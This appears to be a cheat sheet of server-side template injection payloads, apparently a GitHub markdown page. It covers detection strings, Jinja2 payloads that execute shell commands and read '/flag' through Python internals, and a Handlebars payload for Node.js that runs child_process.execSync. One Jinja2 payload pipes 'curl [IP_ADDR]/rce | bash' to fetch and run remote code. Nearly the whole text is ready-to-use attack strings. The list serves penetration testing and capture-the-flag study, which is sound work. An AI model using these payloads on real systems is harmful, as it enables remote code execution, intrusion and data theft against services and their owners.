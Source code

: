 # Server-Side Template Injection (SSTI)

```
${{<%[%'"}}%    # Special characteres for detection
{{7*7}}
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl [IP_ADDR]/rce | bash")|attr("read")()}}
```

## Python

### Jinja2

```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
{{request.__class__._load_form_data.__globals__.__builtins__.open("/flag").read() }}
{{ get_flashed_messages.__globals__.__builtins__.open("/flag").read() }}
```

Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Node.js Express middleware

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```
